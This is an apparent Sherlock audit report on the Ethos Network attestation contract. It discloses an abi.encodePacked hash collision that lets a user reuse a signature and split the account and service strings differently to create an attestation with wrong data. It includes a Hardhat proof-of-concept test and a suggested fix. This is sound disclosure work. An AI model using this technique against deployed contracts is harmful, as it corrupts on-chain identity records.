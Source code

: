 Virtual Boysenberry Swan

Medium

# Possible hash collision resulting in incorrect attestation details

### Summary

A user can create an attestation for his profile using the [`EthosAttestation::createAttestation`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L184) and the attestation identifier is its hash.
```javascript
bytes32 hashStr = getServiceAndAccountHash(attestationDetails.service, attestationDetails.account);
...

attestationByHash[hashStr] = Attestation({
    archived: false,
    attestationId: attestationCount,
    createdAt: block.timestamp,
    profileId: profileId,
    account: attestationDetails.account,
    service: attestationDetails.service
});
```

The problem is how the attestation hash is derived:
```javascript
function getServiceAndAccountHash(string calldata service, string calldata account) public pure returns (bytes32) {
       if (bytes(service).length == 0 || bytes(account).length == 0) {
           revert AttestationInvalid(service, account);
       }
       return keccak256(abi.encodePacked(service, account));
   }
```
In solidity, the string is dynamically sized and when using abi.encodePacked the result for
 `abi.encodePacked('ben','hash')` and `abi.encodePacked('b','enhash')` is the same

This is problematic because a user can create an attestation with incorrect details, which cannot be updated 

### Root Cause

In [`EthosAttestation::_keccakForCreateAttestation`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L192) and [`EthosAttestation::getServiceAndAccountHash`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L428) the hash calculation is vulnerable to hash collisions.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Alice obtains a signature for creating her attestation with `account: 'alice'` and `service: 'x.com'`
2. Alice submits a [`EthosAttestation::createAttestation`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L184) transaction with incorrect details `account: 'a'` and `service: 'licex.com'`
3. Alice created an attestation with wrong data

### Impact

An attestation with incorrect details can be created and it cannot be ever updated leading to corrupted data

### PoC

Paste this test inside `EthosAttestations.test.ts`

```javascript
describe('POC', () => {
  it.only('should create Attestation with incorrect params', async () => {
    const {
      OWNER,
      PROFILE_CREATOR_0,
      ethosProfile,
      ethosAttestation,
      SERVICE_X,
      ACCOUNT_NAME_BEN,
      ATTESTATION_EVIDENCE_0,
      EXPECTED_SIGNER,
    } = await loadFixture(deployFixture);

    await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
    await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
    const creator0profileId = String(
      await ethosProfile.profileIdByAddress(PROFILE_CREATOR_0.address)
    );
    const randValue = '123';

    /*
        Ben obtains a signature for attestation
        ACCOUNT_NAME_BEN: benwalther256
        SERVICE_X: x.com
      */
    const signature = await common.signatureForCreateAttestation(
      creator0profileId,
      randValue,
      ACCOUNT_NAME_BEN,
      SERVICE_X,
      ATTESTATION_EVIDENCE_0,
      EXPECTED_SIGNER
    );

    /*
        Ben's submits the transaction it with incorrect details
        account: benwalther256x.c
        service: om
      */
    const account = ACCOUNT_NAME_BEN + SERVICE_X.slice(0, 3); // benwalther256x.c
    const service = SERVICE_X.slice(3, SERVICE_X.length); // om
    await ethosAttestation
      .connect(PROFILE_CREATOR_0)
      .createAttestation(
        creator0profileId,
        randValue,
        { account, service },
        ATTESTATION_EVIDENCE_0,
        signature
      );

    /* Verify that incorrect attestation has been created */
    const attestationHash = await ethosAttestation.getServiceAndAccountHash(
      service,
      account
    );
    const attestation = await ethosAttestation.attestationByHash(
      attestationHash
    );
    expect(attestation.archived).to.be.equal(false, 'Wrong archived');
    expect(attestation.profileId).to.equal(
      creator0profileId,
      'Wrong profileId'
    );
    expect(attestation.account).to.equal(account, 'Should be benwalther256x.c');
    expect(attestation.service).to.equal(service, 'Should be om');
  });
});
```

### Mitigation

When creating a message for verifying the creation of the attestation include the randValue between the `account`, `service` and `evidence`:
```diff
function _keccakForCreateAttestation(
        uint256 profileId,
        uint256 randValue,
        string calldata account,
        string calldata service,
        string calldata evidence
    ) private pure returns (bytes32) {
--        return keccak256(abi.encodePacked(profileId, randValue, account, service, evidence));
++        return keccak256(abi.encodePacked(profileId, randValue, account, randValue, service, randValue,evidence));
    }
```

and

```diff
--  function getServiceAndAccountHash(string calldata service, string calldata account) public pure returns (bytes32) {
++ function getServiceAndAccountHash(string calldata service, string calldata account, uint256 randValue) public pure returns (bytes32) {
        if (bytes(service).length == 0 || bytes(account).length == 0) {
            revert AttestationInvalid(service, account);
        }
--         return keccak256(abi.encodePacked(service, account));
++        return keccak256(abi.encodePacked(service, randValue, account));
    }
```